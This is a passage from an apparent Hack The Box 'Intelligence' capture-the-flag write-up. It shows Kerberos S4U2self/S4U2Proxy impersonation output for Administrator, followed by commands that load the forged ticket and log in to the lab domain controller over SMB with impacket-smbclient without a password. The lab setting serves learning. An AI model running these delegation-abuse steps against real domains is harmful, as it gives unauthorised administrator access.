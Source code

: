 ```shell
[*] Getting TGT for user
[*] Impersonating Administrator
[*]     Requesting S4U2self
[*]     Requesting S4U2Proxy
[*] Saving ticket in Administrator.ccache
```
From there, gaining root access to the machine was as simple as logging in via SMB using the downloaded Kerberos ticket.
```shell
┌──(kali@kali)-[~/htb/intelligence/gMSADumper]
└─$ export KRB5CCNAME=Administrator.ccache

┌──(kali@kali)-[~/htb/intelligence/gMSADumper]
└─$ impacket-smbclient -k intelligence.htb/Administrator@dc.intelligence.htb -no-pass
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

Type help for list of commands
# shares
ADMIN$
C$
IPC$
IT
NETLOGON
SYSVOL
Users
# who
host:   \\10.10.14.22, user: Administrator, active:    25, idle:     1
#
```